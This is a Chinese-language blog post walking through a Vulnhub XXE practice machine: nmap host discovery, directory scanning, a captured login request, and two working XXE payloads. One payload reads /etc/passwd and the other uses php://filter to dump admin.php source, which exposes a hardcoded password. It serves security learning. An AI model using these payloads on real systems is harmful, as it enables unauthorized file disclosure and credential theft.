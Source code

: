 ```yaml
---
layout: post
title: 靶机实操-XXE
tags: [技能]
comments: true
---
```


XXE靶机.

> 1.主机发现

```
nmap -sS 192.168.74.1/24
```
- 就是192.168.74.158没错了，开放了80端口

![xxe-1](https://cijian00.github.io/img/Vulnhub/XXE/1.png)

>2.前期信息收集

- 访问192.168.74.158，就是apache默认页

![xxe-2](https://cijian00.github.io/img/Vulnhub/XXE/2.png)

- 御剑扫目录。

![xxe-3](https://cijian00.github.io/img/Vulnhub/XXE/3.png)

- 访问robots.txt。存在/xxe/路径，/xxe/admin.php页面

![xxe-4](https://cijian00.github.io/img/Vulnhub/XXE/4.png)

- ip/xxe为登录界面

![xxe-5](https://cijian00.github.io/img/Vulnhub/XXE/5.png)

- ip/xxe/admin.php同样是登录界面

![xxe-6](https://cijian00.github.io/img/Vulnhub/XXE/6.png)

> 3.靶机测试

- 正常访问查看回显

```
POST /xxe/xxe.php HTTP/1.1
Host: 192.168.74.158
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.74.158/xxe/
Content-Type: text/plain;charset=UTF-8
Content-Length: 93
Connection: close

<?xml version="1.0" encoding="UTF-8"?><root><name>admin</name><password>123</password></root>
```

- 有回显

```
HTTP/1.1 200 OK
Date: Mon, 27 May 2019 05:43:44 GMT
Server: Apache/2.4.27 (Ubuntu)
Content-Length: 32
Connection: close
Content-Type: text/html; charset=UTF-8

Sorry, this admin not available!
```

- 文件读取

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "file:///etc/passwd">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-7](https://cijian00.github.io/img/Vulnhub/XXE/7.png)

- 查看admin.php

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY admin SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php">
]>
<root><name>&admin;</name><password>1</password></root>
```

![xxe-8](https://cijian00.github.io/img/Vulnhub/XXE/8.png)

- 查看源码，存在硬编码密码，登录密码用md5解密即可。

![xxe-9](https://cijian00.github.io/img/Vulnhub/XXE/9.png)


![xxe-10](https://cijian00.github.io/img/Vulnhub/XXE/10.png)

```

```
